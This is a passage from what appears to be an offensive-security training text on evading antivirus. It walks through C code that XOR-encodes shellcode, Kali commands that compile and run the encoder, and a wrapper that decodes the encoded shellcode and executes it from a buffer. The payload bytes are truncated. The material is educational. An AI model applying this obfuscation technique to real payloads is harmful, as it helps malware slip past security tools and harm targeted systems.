 The program then iterates through the characters, performing a bitwise-XOR operation on them with the XOR key we chose. Next, it prints the newly-encoded hex value to the screen so that we can copy it later.

```
for (int i=0; i<payload_length; i++)
	{
		printf("\x%02X",buf[i]^xor_key);
	}
```

> Listing 38 - Second part of our encoder's main loop

We can use gcc to compile our encoder. Once we've done that, we can run it to output the encoded version of our shellcode.

```
kali@kali:~$ gcc -o encoder.out encoder.c

kali@kali:~$ ./encoder.out 
x20x73x12x45x4Fx02xCFx8Ax3Ex42x02x7BxB5x20x76x12x45...x20x4Bx14x45x4Fx02xCFx8Ax32x71x02xDDx02xF3x48
```

> Listing 39 - Output of our XOR encoder

We can copy the output string from our encoder and replace the payload string in our original C wrapper. In addition, we need to modify our original C wrapper's _main_ function to decode the shellcode before we try to run it. The updated program is shown in the Listing 40.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// Our obfuscated shellcode
unsigned char buf[] = "x20x73x12x45x4Fx02xCFx8A...x32x71x02xDDx02xF3x48";

int main (int argc, char **argv) 
{
	char xor_key = 'J';
	int arraysize = (int) sizeof(buf);
	for (int i=0; i<arraysize-1; i++)
	{
		buf[i] = buf[i]^xor_key;
	}
	int (*ret)() = (int(*)())buf;
	ret();
}
```

> Listing 40 - Updated C wrapper program with our encoded shellcode

Our newly-modified C wrapper program behaves as a combination of our original C wrapper and our encoder program. We define our payload buffer, which is now obfuscated, as the result of our encoder program's output. We define our XOR key and get the size of the payload, stored in the _arraysize_ variable. We then iterate through the payload string as we did in the encoder, performing an XOR operation on each character as we did before.
